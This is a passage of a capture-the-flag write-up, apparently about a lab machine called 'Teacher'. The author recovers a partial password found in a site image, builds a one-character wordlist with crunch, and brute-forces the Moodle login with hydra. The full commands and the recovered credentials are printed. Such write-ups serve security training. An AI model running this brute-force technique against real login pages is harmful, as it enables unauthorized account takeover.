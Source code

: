 ```
wget -r http://10.10.10.153/
```

Then I grep everything to search for a password :

```
grep -Ri pass
[...]
images/5.png:I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.
[...]
```

I now have a password, but the last character is missing. I used crunch to generate a wordlist with the password and every printable character as the last part :

```
crunch 15 15 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Th4C00lTheacha@ -o passwords.txt
Crunch will now generate the following amount of data: 1504 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 94 

crunch: 100% completed generating output
```

Then I used hydra to brute force the credentials :

```
hydra -l giovanni -P ./passwords.txt 10.10.10.153 http-post-form '/moodle/login/index.php:username=^USER^&password=^PASS^:Invalid login' -Vv -q
[...]
[80][http-post-form] host: 10.10.10.153   login: giovanni   password: Th4C00lTheacha#
[...]
```

The right crendentials are :

```
login : giovanni
password : Th4C00lTheacha#
```

![Moodle connected](/assets/imgs/teacher/connected.PNG)
